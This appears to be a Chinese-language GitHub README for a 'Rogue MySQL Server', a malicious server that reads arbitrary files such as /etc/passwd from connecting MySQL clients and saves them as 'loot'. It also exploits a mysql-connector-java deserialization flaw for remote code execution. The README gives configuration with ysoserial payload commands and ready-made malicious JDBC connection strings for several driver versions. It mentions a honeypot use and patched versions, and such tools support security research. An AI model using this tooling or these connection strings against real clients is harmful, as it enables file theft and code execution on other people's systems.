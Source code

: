 # Rogue Mysql Server

基于 https://github.com/vitessio/vitess 实现的恶意 mysql 服务器, 支持 go, php, python, java, 原生命令行等多种语言下的多种库的 mysql 客户端.  
远离恼人的兼容性问题, 测试过的客户端见下表

| language  | library                        | pass |
|-----------|--------------------------------|------|
| go        | github.com/go-sql-driver/mysql | ✔️    |
| php       | mysqli, pdo                    | ✔️    |
| python    | pymysql                        | ✔️    |
| java      | mysql-connector-java           | ✔️    |
| native    | 10.4.13-MariaDB                | ✔️    |

觉得好用可以点右上方的 🌟 支持作者

## 功能

* 可以兼容多种 mysql 客户端
* 可以读取二进制文件
* 自动保存文件
* 作为蜜罐使用时, 可选择开启帐号密码验证
* 读取客户端的 ConnAttr, 可能会包含一些客户端的额外信息
* 对于 jdbc, 可控链接串的情况下可以利用 mysql-connector-java 反序列化漏洞进行 RCE

## 配置文件

示例:
```yaml
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
always_read: false
from_database_name: false

auth: true
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

`host`, `port` 对应监听的 IP 和端口. `version_string` 对应客户端得到的服务端版本信息.  
`auth` 对应是否开启验证, 如果为 `false`, 那么不管输什么密码或者不输入密码都可以登录.  
如果为 `true`, 则需要帐号密码匹配下面的设置的帐号密码中的一条.  
而 `file_list` 对应需要读取的文件, 注意这个不意味着一次性读取列表中的所有文件 (很多客户端实现不支持这种操作).  
而是客户端每执行一次语句, 按照列表中的顺序读取一个文件, 并保存到 `save_path` 文件夹中.

此外, 如果开启 `from_database_name`, 将会从客户端设定中的数据库名称中提取要读取的文件, 例如链接串为 `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`,
将会从客户端读取 `/etc/hosts` 而不会遵循 `file_list` 中的设置.  
而如果开启 `always_read`, 那么不管客户端是否标记自己支持 LOAD DATA LOCAL, 都会尝试去读取文件, 否则会根据客户端的标记来决定是否读取, 避免客户端请求不同步.

## jdbc 利用相关

在版本 >= 8.0.20, >= 5.1.49 中, 此漏洞已经被修复,  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

与 jdbc 相关的配置如下
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```
`jdbc_exploit` 代表这个功能开启, 在检测到客户端是 mysql-connector-j 的情况下会自动利用. jdbc 利用和读取文件只能同时开启一项, 开启 jdbc 利用会导致无法读取 jdbc 客户端的文件.  
`always_exploit` 代表不检测客户端是否为 jdbc, 总是开启 jdbc 利用.  
`ysoserial_command` 生成反序列化 payload 的命令, 使用 jdbc 的 `connectionAttributes` 选项来指定使用的 payload, 其中 cc4, cc7 对应在连接属性 `t` 中的值. 如果未指定, 则使用提供的所有 payload 中的第一个.  

例如:  
在 8.x 版本下要使用 cc7, jdbc 连接串为 `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

```
8.x: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
6.x: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
>=5.1.11: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
```

## Ref

jdbc 反序列化思路参考:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql 协议相关:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
